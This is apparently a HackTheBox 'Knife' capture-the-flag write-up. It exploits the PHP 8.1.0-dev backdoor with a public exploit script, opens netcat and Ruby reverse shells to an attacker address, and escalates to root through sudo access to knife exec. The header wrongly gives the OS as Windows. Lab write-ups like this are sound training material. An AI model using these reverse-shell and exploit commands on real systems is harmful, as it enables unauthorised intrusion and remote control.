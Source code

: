 #  Knife - HackTheBox WriteUp

OS: Windows 

Difficulty: Easy

IP: 10.10.10.242

Vulnerabilities: PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the **User-Agentt** header. Knife exec was used to escalate privileges too root.

### Scanning, Recon & Information Gathering

The penetration test was started by running a quick full TCP nmap scan against the target:

nmap -p- -T4 10.10.10.242

![nmap_quick](../images/knife/nmap.jpg)

#### Service Enumeration 

**Port 80**

![home](../images/knife/home.jpg)

Navigating to the home page and checking the headers via a proxy like burp:

![php 8_1_0-dev](../images/knife/php_version.png)

PHP/8.1.0-dev is identified as PHP version

Searching for exploits:

searchsploit PHP '8.1.0-dev'

![searchsploit_php8_1_0-dev](../images/knife/searchsploit_php810dev.jpg)

Using the exploitt script and running the following commands will lead to a shell on the target:

```
searchsploit -m 49933.py
mv 49933.py php_8_1_0_dev_exploit.py
python3 php_8_1_0_dev_exploit.py http://10.10.10.242/
id
cat /home/james/user.txt
```

![reverse shell](../images/knife/user.jpg)

Using netcat we can get a reverse shell

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 443 >/tmp/f```

![reverse shell](../images/knife/rev.jpg)

Privilege Escalation:


Upgrade the terminal using python

```
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali:/pwn_share/HTB/knife# stty raw -echo
root@kali:/pwn_share/HTB/knife# nc -lnvp 443

james@knife:/$ export TERM=xterm
james@knife:/$
```

Checking for what the user can do with sudo:

```
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Reading the knife help and documentation, we find that it can execute ruby scripts.

```sudo /usr/bin/knife --help```

![knife_help](../images/knife/knife_help.jpg)

creating a script in the /tmp directory with the following contents

```exit if fork;c=TCPSocket.new("10.10.14.114","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end```

This will initiate a reverse shell connection back to the attacker's machine where a listener is running.

All of this can be done using reverse shell generator 

```rsg 10.10.14.114 443 ruby```

And then copying the contents to a new script in /tmp/my.rb

Executing the script
```sudo /usr/bin/knife exec '/tmp/my.rb'```

```
id
cat /root/root.txt
```


![root](../images/knife/root.jpg)
